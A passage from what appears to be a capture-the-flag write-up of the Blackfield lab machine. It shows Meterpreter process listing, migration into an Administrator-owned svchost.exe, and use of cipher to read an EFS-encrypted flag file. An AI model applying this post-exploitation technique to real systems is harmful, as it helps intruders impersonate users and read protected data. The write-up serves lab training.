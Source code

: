 
I can see who can decrypt (administrator, as expected), but now I can’t
decrypt it. Of course, because I’m running as SYSTEM:

    
    
    C:\Users\Administrator\Desktop>whoami
    nt authority\system
    

I got a new Meterpreter session, and this time, I looked for a process that
was running as administrator and was in session 1:

    
    
    meterpreter > ps
    
    Process List
    ============
    
     PID   PPID  Name                                       Arch  Session  User                          Path
     ---   ----  ----                                       ----  -------  ----                          ----
     0     0     [System Process]                                                                         
     4     0     System                                     x64   0                                      
     88    4     Registry                                   x64   0                                      
     280   4     smss.exe                                   x64   0                                      
     328   528   dwm.exe                                    x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
    ...[snip]...
     5848  604   svchost.exe                                x64   1        BLACKFIELD\Administrator      C:\Windows\System32\svchost.exe
    ...[snip]...
    
    meterpreter > migrate 5848
    [*] Migrating from 4504 to 5848...
    [*] Migration completed successfully.
    

Now in a shell, and `cipher` works and I can read the flag:

    
    
    C:\Users\Administrator\Desktop>cipher /c root.txt
    
     Listing C:\Users\Administrator\Desktop\
     New files added to this directory will not be encrypted.
    
    E root.txt
      Compatibility Level:
        Windows XP/Server 2003
    
      Users who can decrypt:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 327F 9775 6FF7 110B 0564 E159 7DBC AF6E 7D2A AFD8 
    
      Recovery Certificates:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 78CD 0031 7A9C 948A 9A66 0D6D BC32 0706 D193 476A 
    
      Key Information:
        Algorithm: AES
        Key Length: 256
        Key Entropy: 256
        
    C:\Users\Administrator\Desktop>type root.txt
    4375a629************************
    

[](/2020/10/03/htb-blackfield.html)

